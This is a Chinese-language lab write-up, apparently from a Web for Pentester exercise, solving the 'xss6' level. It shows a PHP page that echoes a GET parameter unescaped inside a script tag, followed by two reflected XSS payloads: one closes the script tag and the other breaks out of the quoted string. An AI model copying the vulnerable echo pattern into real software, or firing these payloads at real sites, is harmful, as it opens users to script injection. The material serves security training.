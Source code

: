 # xss6

进入example6.php

源码
```php
<script> var $a="<?php echo $_GET['name'];?>;"</script>
```

在这里就直接使用script标签对php代码进行包裹
从网页传过来的参数就会变成这样
```js
<script> var $a=" <script>alert('hello xsss')</script>";</scrip>
```

这样就无法执行js的代码了
但是这样也是可以绕过的
可以对代码进行闭合
payload1
```js
example6.php?name=</script><script>alert('hello xss')</script><script>
```
这样传参过去后台的代码执行起来就是这样的

```javascript
<script> var $a="</script><script>alert('hello xss')</script><script>";</script>
```
这样就把本来一个js代码给分成三个了>
```javascript
<script> var $a="<script> #第一个js代码
<script> alert('hello xss')</script>    #第二个js代码
<script>";</script>    #第三个js代码
```
![img](../../../image/xss/1066040135561.png)

---


还有一种解法
也是对代码进行闭合
不过是对双引号进行闭合
payload2
```javascript
example6.php?name=";alert('hello xss');"
```
传入后台执行的代码就变成了
```javascript
<script> var $a="";alert('hello xss');"";</script>
```
这样就可以执行了
![img](../../../image/xss/2148041162516.png)

过关咯！！！！！！！！！！！！！！！！

